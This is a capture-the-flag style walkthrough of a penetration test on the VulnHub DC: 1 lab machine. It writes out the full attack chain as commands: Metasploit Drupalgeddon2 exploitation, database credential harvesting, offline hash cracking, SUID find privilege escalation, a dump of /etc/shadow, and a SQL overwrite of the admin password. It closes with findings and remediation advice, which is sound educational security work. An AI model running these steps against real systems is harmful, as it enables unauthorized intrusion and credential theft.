# DC: 1 — VulnHub VAPT Walkthrough

A full-scope penetration test of **DC: 1**, a beginner-to-intermediate VulnHub boot2root machine running a vulnerable Drupal 7 CMS. This engagement chains an unauthenticated remote code execution vulnerability through credential harvesting and privilege escalation to achieve complete compromise of the target — root-level operating system access **and** full administrative control of the web application itself.

| | |
|---|---|
| **Target** | DC: 1 (VulnHub) |
| **Target OS** | Debian-based Linux, Apache 2.2.22, Drupal 7 |
| **Attacker OS** | Kali Linux 2025.4 (VMware Workstation) |
| **Network Mode** | NAT (isolated virtual lab subnet) |
| **Objective** | Full compromise — root shell + Drupal admin access, all flags captured |

---

## Table of Contents

1. [Reconnaissance](#1-reconnaissance)
2. [Exploitation & Initial Foothold](#2-exploitation--initial-foothold)
3. [Credential Harvesting & Enumeration](#3-credential-harvesting--enumeration)
4. [Privilege Escalation](#4-privilege-escalation)
5. [Bonus: Application-Level Compromise — Drupal Admin Access](#5-bonus-application-level-compromise--drupal-admin-access)
6. [Summary of Findings](#summary-of-findings)
7. [Remediation Recommendations](#remediation-recommendations)

---

## 1. Reconnaissance

The goal of this phase is to identify the target on the network, enumerate what services it exposes, and fingerprint the technology stack well enough to pull a working exploit against it.

### 1.1 Host Discovery

Before any scanning can happen, the target's IP address on the virtual lab subnet has to be identified.

```bash
arp-scan -l
```

`arp-scan` sends ARP requests to every address on the local subnet and lists every host that responds, along with its MAC address and hardware vendor. This is faster and more reliable than a full ping sweep on a local segment, since ARP operates below the IP layer and isn't filtered by host-based firewalls the way ICMP often is.



**Result:** The target was identified at `192.168.150.130`, distinguishable from the gateway/broadcast addresses on the subnet.

### 1.2 Service & Version Enumeration

```bash
nmap -A 192.168.150.130
```

The `-A` flag enables aggressive scanning — OS detection, version detection, script scanning, and traceroute all in one pass. This gives a complete picture of the attack surface in a single command rather than running multiple separate scans.



**Findings:**

| Port | Service | Version | Notes |
|------|---------|---------|-------|
| 22   | SSH     | OpenSSH 6.0p1 Debian 4+deb7u7 | Available but not the initial entry point |
| 80   | HTTP    | Apache httpd 2.2.22 (Debian) | Primary attack surface |
| 111  | RPC     | rpcbind 2-4 | Standard NFS/RPC service, not further exploited |

Critically, Nmap's HTTP script scan already fingerprinted the CMS directly from the HTTP response headers:
```
http-generator: Drupal 7 (http://drupal.org)
```
This single line immediately narrows the entire engagement toward Drupal-specific vulnerability research.

### 1.3 robots.txt Disclosure

```
http://192.168.150.130/robots.txt
```

`robots.txt` is intended to tell search engine crawlers which paths *not* to index — but it has no enforcement power and is routinely misused as an unintentional roadmap of a site's internal structure. Reading it by hand (rather than relying on a scanner) surfaces paths an automated tool might deprioritize.



**Result:** The disallowed paths (`/includes/`, `/misc/`, `/modules/`, `/profiles/`, `/scripts/`, `/themes/`, `CHANGELOG.txt`, `/user/login/`, etc.) are the **default Drupal 7 robots.txt file almost verbatim** — strong secondary confirmation of the CMS and version family, independent of the HTTP headers.

### 1.4 Directory & Content Enumeration

```bash
gobuster dir -u http://192.168.150.130/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Gobuster brute-forces the web root against a wordlist to surface directories and files that aren't linked anywhere on the public-facing site — administrative panels, installation scripts, and content directories that wouldn't otherwise be discoverable through normal browsing.



**Result:** Confirmed the presence of standard Drupal structural directories (`/sites/`, `/modules/`, `/themes/`, `/includes/`, `/scripts/`) and functional endpoints (`/user/login/`, `/node/`, `/admin/`) — all consistent with a stock Drupal 7 install, with no unusual custom paths suggesting additional attack surface beyond the CMS itself.

### 1.5 HTTP Header Fingerprinting & Exploit Research

```bash
curl -I http://192.168.150.130/
searchsploit drupal 7
```

`curl -I` retrieves only the HTTP response headers (no body), providing a fast, scriptable way to confirm the CMS/version signal seen earlier. `searchsploit` then searches a local, offline mirror of Exploit-DB for any public exploits matching that software and version.



The header response explicitly confirms:
```
X-Generator: Drupal 7 (http://drupal.org)
```

Running the full `searchsploit drupal 7` query returns the complete list of known vulnerabilities for this CMS:



**Key finding:** Among dozens of results, one entry stands out as the highest-impact, pre-authentication vulnerability:
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```
This is **CVE-2018-7600**, an unauthenticated remote code execution vulnerability in Drupal's Form API — the single highest-value finding of the entire reconnaissance phase, since it requires no credentials whatsoever to exploit.

---

## 2. Exploitation & Initial Foothold

### 2.1 Exploiting Drupalgeddon2 (CVE-2018-7600)

```bash
msfconsole
search Drupalgeddon
use 0
set RHOSTS 192.168.150.130
exploit
```

Metasploit's `drupal_drupalgeddon2` module automates the crafted HTTP request that abuses Drupal's Form API render-array processing. Specifically, the vulnerability exists because certain Drupal form elements (`#post_render`, `#markup`, and related render-array keys) are processed and executed **before** the framework's access-control checks run — meaning a carefully constructed POST request to an unauthenticated endpoint can smuggle in arbitrary PHP execution without ever needing to log in.



**Result:** The exploit completed successfully, confirmed by:
```
[*] Meterpreter session 1 opened (192.168.150.128:4444 -> 192.168.150.130:38905)
```
A fully interactive Meterpreter session was established on the target with **no credentials of any kind** — this is the single most critical finding of the engagement, as it represents complete unauthenticated remote code execution against a production-pattern CMS.

### 2.2 Initial Post-Exploitation Enumeration — Flag 1

```
ls
cat flag1.txt
```

With a foothold established via Meterpreter's filesystem browsing, the first step of any post-exploitation phase is orienting within the compromised filesystem and looking for any intentional or unintentional clues about next steps.



**Result:** `flag1.txt`, sitting directly in the Drupal web root, reads:
```
Every good CMS needs a config file - and so do you.
```
This is a direct, deliberate hint pointing toward Drupal's configuration file (`sites/default/settings.php`) as the next target — Drupal, like most CMSs, stores its database connection credentials in this file, often in plaintext.

### 2.3 Extracting Database Credentials — Flag 2

```
cat sites/default/settings.php
```

Drupal's `settings.php` must contain the database connection string for the application to function — meaning the database username and password are, by necessity, stored somewhere Apache (and therefore anyone who compromises the web server account) can read them.



**Result:** Two significant pieces of information were recovered from this single file:

1. **Flag 2**, embedded as a code comment:
   > *"Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access). What can you do with these credentials?"*

   This is a deliberate design hint — the challenge is explicitly telling the tester that the credentials about to be found have a purpose *beyond* simple reconnaissance.

2. **Live database credentials**, in plaintext:
   ```php
   'database' => 'drupaldb',
   'username' => 'dbuser',
   'password' => 'R0ck3t',
   'host'     => 'localhost',
   ```

This is a textbook finding for any VAPT report: **sensitive credentials stored in plaintext within an application-readable configuration file**, directly exploitable by anyone who achieves code execution at the web server's privilege level.

### 2.4 Dropping to a Shell and Stabilizing It

Up to this point, filesystem access and file reads were carried out directly through Meterpreter's built-in `ls`/`cat`-style commands. Meterpreter's command set is useful for quick browsing, but it cannot run arbitrary system binaries such as `mysql` — needed for the next phase of credential harvesting. The session was therefore dropped into a native OS shell and upgraded to a fully interactive one.

```bash
shell
whoami
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Meterpreter's `shell` command drops into the target's native OS shell, but a raw shell obtained this way is non-interactive — it lacks tab-completion, proper signal handling (`Ctrl+C`), and job control, all of which are needed for reliable command execution, including authenticating into MySQL. Spawning a PTY (pseudo-terminal) via Python's `pty` module upgrades this into a fully interactive shell, and setting `TERM` afterward restores correct terminal behavior for interactive programs.



**Result:** Confirmed access as the low-privileged web server account:
```
whoami
www-data
```
This is expected — `www-data` is the account Apache runs as, meaning any code executed through the web application (including this RCE) inherits exactly this account's limited permissions, not root. With a stable interactive shell now in place, the engagement proceeds directly into database authentication using the credentials recovered in Section 2.3.

---

## 3. Credential Harvesting & Enumeration

### 3.1 Authenticating to the Database

```bash
mysql -u dbuser -p
# Enter password: R0ck3t
show databases;
use drupaldb;
```

With valid database credentials in hand, direct database access bypasses the web application layer entirely, giving unfiltered visibility into every table Drupal maintains — including the authentication table.



**Result:** Successful authentication confirms the harvested credentials are valid and functional, with the `drupaldb` database now accessible for direct querying.

### 3.2 Enumerating the Database Schema

```sql
show tables;
```

Before querying for anything specific, enumerating every table in the schema both confirms this is a genuine Drupal installation (via the presence of Drupal-standard tables like `cache`, `node`, `users`, `watchdog`) and identifies exactly where credential and content data live.




**Result:** The schema confirms a standard, unmodified Drupal 7 table structure. Two tables are of immediate interest: **`users`** (authentication data) and **`node`** (site content, used next to locate Flag 3).

### 3.3 Dumping the Users Table

```sql
select * from users;
```

This is the core credential-harvesting step — extracting every registered user account and its password hash directly from the database, bypassing any rate-limiting or lockout protection the web login form might otherwise enforce.



**Result:** Two meaningful accounts were recovered:

| UID | Username | Password Hash (truncated) | Email |
|-----|----------|---------------------------|-------|
| 1 | `admin` | `$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nu...` | admin@example.com |
| 2 | `Fred`  | `$S$DWGrxef6.D0cwB5Ts.GlnLw15chRR...` | fred@example.org |

Both hashes use Drupal 7's custom password hashing scheme — a salted SHA-512 implementation with a deliberately high iteration count (32,768 rounds), identifiable by the `$S$` prefix.

### 3.4 Locating Flag 3 — The Drupal `node` Table

The `node` table identified in Section 3.2 holds every piece of content published on the Drupal site. Rather than browsing the web interface, it was queried directly.

```sql
select * from node;
```

**Result:** Two rows were returned — the site's default main page, and a second node explicitly titled **`flag3`**:

| nid | title | uid | status |
|-----|-------|-----|--------|
| 1 | Main | 2 | 1 |
| 2 | flag3 | 1 | 0 |

The `flag3` node's `status` value of `0` means it is **unpublished** — this explains why it never appears when browsing the live site, even as an authenticated user, and confirms that the only reliable way to retrieve its content is a direct database query rather than the Drupal UI.

Drupal stores a node's actual body text in a separate table, `field_data_body`, keyed by the node's ID. This table was queried next to retrieve the flag's content.

```sql
select * from field_data_body;
```




**Result:** The second row (`entity_id: 2`, matching the `flag3` node) contained the flag's actual text:
> *"Special PERMS will help FIND the passwd — but you'll need to -exec that command to work out how to get what's in the shadow."*

This hint is a direct, explicit pointer toward the privilege escalation technique used later in Section 4 — it names both the relevant file permission concept ("special PERMS") and the exact command (`find`, via its `-exec` flag) needed to escalate to root and ultimately read `/etc/shadow`.

### 3.5 Pivoting Through the Filesystem — Locating the Secondary User

```bash
ls /
cd home
ls
cd flag4
cat flag4.txt
```

The `users` table confirmed `Fred` as a named application-level account, but system-level (OS) user enumeration is a separate concern. Checking `/home` directly identifies which accounts actually have shell access on the underlying Linux system — this is how the box ties the web application's user list to a real, pivotable OS account.




**Result:** A single non-system home directory, `/home/flag4`, was found, containing `flag4.txt`:
> *"Can you use this same method to find or access the flag in root? Probably. But perhaps it's not that easy. Or maybe it is?"*

This flag deliberately foreshadows the privilege escalation phase — directly hinting that whatever technique granted access up to this point may also be reusable (or may not be) to reach root.

### 3.6 Offline Hash Cracking

```bash
echo '<hash>' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Drupal7 hash.txt
john --show --format=Drupal7 hash.txt
```

Rather than guessing passwords against the live login form (which is both slower and more detectable, since it generates a flood of failed-login log entries on the target), the recovered hash was cracked offline using John the Ripper. The `--format=Drupal7` flag is essential here — Drupal 7's `$S$`-prefixed hash is a distinct, dedicated hash type in John, structurally different from more generic password hashing schemes, and must be explicitly specified for John to parse the hash correctly at all.



**Result:** After a sustained offline cracking run against the `rockyou.txt` wordlist, John successfully recovered the plaintext password:
```
53cr3t
```
Note the cracking time: Drupal 7's intentionally expensive hashing (32,768 SHA-512 rounds per guess) meant this crack took over an hour of continuous computation even on a curated wordlist — a legitimate, positive defensive control worth noting in the findings, even though it was ultimately insufficient against a determined, patient offline attack.

---

## 4. Privilege Escalation

### 4.1 Checking for Sudo Rights

```bash
sudo -l
```

**Result:** `sudo` was not installed/available for the `www-data` account:
```
bash: sudo: command not found
```
This ruled out a classic sudoers-misconfiguration privesc path and redirected enumeration toward SUID binaries instead.

### 4.2 Enumerating SUID Binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

A SUID (Set User ID) bit on an executable means it always runs with the privileges of the file's **owner**, regardless of which user actually invokes it. If a binary owned by `root` has this bit set — and that binary has a built-in way to spawn a shell or execute arbitrary commands — it becomes a direct path to root-level code execution for any user able to run it.



**Result:** Among the expected standard system binaries (`/bin/mount`, `/bin/ping`, `/usr/bin/passwd`, etc.), `/usr/bin/find` itself appeared in the output — a binary that is **not** normally SUID by default on a correctly hardened system. This is the misconfiguration the entire box is built around, and ties directly back to Flag 3's hint about "special PERMS" on `find`.

The GTFOBins reference (`gtfobins.org/gtfobins/find/`) confirms `find`'s documented privilege escalation technique when SUID: its `-exec` flag can be used to spawn an interactive shell, and that spawned shell inherits the SUID owner's (root's) privileges rather than the invoking user's.

### 4.3 Exploiting the SUID Bit on find

```bash
find . -exec /bin/sh \; -quit
```

This command tells `find` to execute `/bin/sh` on the first matched file and then immediately quit. Because `find` itself is running with root's effective permissions (via the SUID bit), the shell it spawns inherits that same root-level privilege — a direct, immediate privilege escalation with a single command.



**Result:** The shell prompt changed from `www-data@DC-1:/$` to a bare `#` — the standard indicator of a root shell. Confirmed explicitly:
```
whoami
root
```

### 4.4 Proof of Full Compromise

```bash
cd root
ls
cat thefinalflag.txt
```

The final step of any boot2root engagement — confirming root-level filesystem access and capturing the designated "proof of compromise" artifact.



**Result:** `/root/thefinalflag.txt` was successfully read, containing a congratulatory completion message — definitive proof of full operating-system-level compromise of the target, achieved through an unauthenticated RCE chained into a SUID binary misconfiguration.

### 4.5 Reading /etc/shadow — Closing the Loop on Flag 3's Hint

With root access confirmed, the filesystem was explored further to retrieve the one artifact Flag 3 had pointed to from the very start: `/etc/shadow`.

```bash
cd /
ls
cat /etc/shadow
```

Recall Flag 3's exact wording from Section 3.4: *"Special PERMS will help FIND the passwd — but you'll need to -exec that command to work out how to get what's in the shadow."* That hint described this exact chain in advance — the "special PERMS" was the SUID bit on `find`, the `-exec` flag was the mechanism, and `/etc/shadow` was the ultimate target, since it is the one file on the system that an unprivileged user cannot read directly.



**Result:** With root privileges in hand, `/etc/shadow` was read in full, exposing the password hashes for every account on the system, including:

```
root:$6$rhe3rFqk$NwHzwJ4H7abOFOM67.Avwl3j8c05rDVPqTIvWg8k3yWe99pivz/96.K7IqPlbBCmzpokVmn13ZhVyQGrQ4phd/:17955:0:99999:7:::
flag4:$6$Nk47pS8q$vTXHYXBFqOoZERNGFThbnZfi5LN0ucGZe05VMtMuIFyqYzY/eVbPNMZ7lpfRVc0BYrQ0brAhJoEzoEWCKxVW80:17946:0:99999:7:::
```

Unlike the Drupal `users` table, `/etc/shadow` stores OS-level login credentials using the SHA-512 crypt scheme (`$6$`) rather than Drupal's `$S$` phpass variant — a structurally different hash family that would require a separate cracking attempt (`--format=sha512crypt` in John) if OS-level credential recovery were the goal. Reaching this file is possible **only** as root, since its permissions (`-rw-r-----`, owned by `root:shadow`) block every other account on the system, including `www-data` and `flag4` themselves. Successfully reading it here is definitive, file-level proof that the privilege escalation in Section 4.3 achieved genuine root — not merely an elevated but still-restricted shell — and it retroactively validates Flag 3 as an accurate, deliberate roadmap for the entire privilege escalation phase.

---

## 5. Bonus: Application-Level Compromise — Drupal Admin Access

Root access on the underlying OS was the primary objective and was achieved in Section 4. As a secondary, complementary finding, full administrative control of the **Drupal application itself** was also demonstrated — showing that this engagement achieved total compromise at both the infrastructure layer and the application layer independently.

### 5.1 Resetting the Admin Password via Direct Database Write

Rather than relying solely on dictionary-based offline cracking (which is non-deterministic and can take an unpredictable amount of time against a strong password), Drupal's own developer tooling was used to generate a known-valid password hash, which was then written directly into the database using the credentials harvested earlier.

```bash
php scripts/password-hash.sh mynewpassword
```
This script, shipped by default with every Drupal 7 install under `/scripts/`, outputs a correctly-formatted `$S$`-prefixed hash for any plaintext input — the exact same format the `users` table expects.

```sql
mysql -udbuser -pR0ck3t drupaldb
UPDATE users SET pass = '<generated hash>' WHERE name = 'admin';
```

Because `www-data` already has legitimate read/write access to the Drupal database (via the plaintext credentials recovered from `settings.php`), there is no need to crack the admin account's existing hash at all — a new, attacker-known password can simply be written in its place. This demonstrates a second, independent path to full administrative compromise of the web application, driven entirely by the same initial credential exposure finding from Section 2.3.



**Result:** `Query OK, 1 row affected` confirms the `admin` account's password hash was successfully overwritten.

### 5.2 Logging In as Drupal Administrator

```
http://192.168.150.130/user/login
```



Credentials entered: username `admin`, password as set in the previous step.



**Result:** Authentication succeeded, landing on the full Drupal administrative dashboard — confirmed by the presence of the admin toolbar (`Dashboard`, `Content`, `Structure`, `Modules`, `Configuration`, `Reports`) and the `Hello admin` greeting in the top-right corner.



This represents complete administrative control of the web application — from this panel, an attacker could install malicious modules, edit any site content, manage all user accounts, or execute arbitrary PHP directly through the content editor (via the PHP filter module), providing yet another independent RCE path beyond the original Drupalgeddon2 exploit.

---

## Summary of Findings

| # | Finding | Severity | Root Cause |
|---|---------|----------|------------|
| 1 | Unauthenticated Remote Code Execution (CVE-2018-7600 / Drupalgeddon2) | **Critical** | Outdated, unpatched Drupal 7.x core; flaw in Form API render-array processing bypassing access control |
| 2 | Plaintext database credentials in `settings.php` | **High** | Default Drupal configuration storing secrets in a web-server-readable file with no additional access restriction |
| 3 | Weak/crackable Drupal user password hash | **Medium** | Password susceptible to offline dictionary attack despite computationally expensive hashing algorithm |
| 4 | SUID bit set on `/usr/bin/find` | **Critical** | Misconfigured file permission allowing trivial privilege escalation to root via a well-documented GTFOBins technique |
| 5 | Direct database write access enabling authentication bypass | **High** | Compromised database credentials allow arbitrary password resets without needing to break existing authentication |

## Remediation Recommendations

1. **Patch or migrate off Drupal 7.** Drupal 7 reached end-of-life and no longer receives security updates; any installation still running it should be upgraded to a supported major version or migrated to an alternative CMS entirely.
2. **Restrict file permissions on configuration files.** `settings.php` and equivalent files should not be readable by the web server process beyond what is strictly necessary, and should never be included in version control or backups without encryption.
3. **Remove unnecessary SUID bits.** Audit all SUID binaries regularly against a reference list such as GTFOBins; `find` and similar utilities should never carry the SUID bit in a production environment.
4. **Enforce strong password policies.** Even with expensive hashing algorithms, weak passwords remain crackable given enough time; enforce minimum complexity and length requirements, and consider adding login rate-limiting and account lockout on the web application itself.
5. **Apply least-privilege database accounts.** The database user used by the web application should have the minimum privileges necessary (read/write on application tables only) rather than broad access that enables arbitrary administrative account takeover.
6. **Enable monitoring and alerting.** Both the Drupalgeddon2 exploitation and the direct database password overwrite would have generated detectable log anomalies (unusual POST requests to unauthenticated endpoints, unexpected `UPDATE` statements on the `users` table) — centralized logging and alerting would have surfaced this compromise in real time.

---

## Tools Used

- `arp-scan` — host discovery
- `nmap` — service and OS enumeration
- `gobuster` — directory/content brute-forcing
- `curl` — HTTP header inspection
- `searchsploit` — offline Exploit-DB vulnerability research
- `Metasploit Framework` — exploitation (Drupalgeddon2 / CVE-2018-7600)
- `mysql` client — direct database enumeration and credential harvesting
- `John the Ripper` — offline password hash cracking
- `find` (GTFOBins technique) — privilege escalation
- Drupal's native `password-hash.sh` script — authenticated password reset

---

*This walkthrough documents a penetration test performed against an intentionally vulnerable VulnHub machine in an isolated lab environment, for educational and professional portfolio purposes only.*
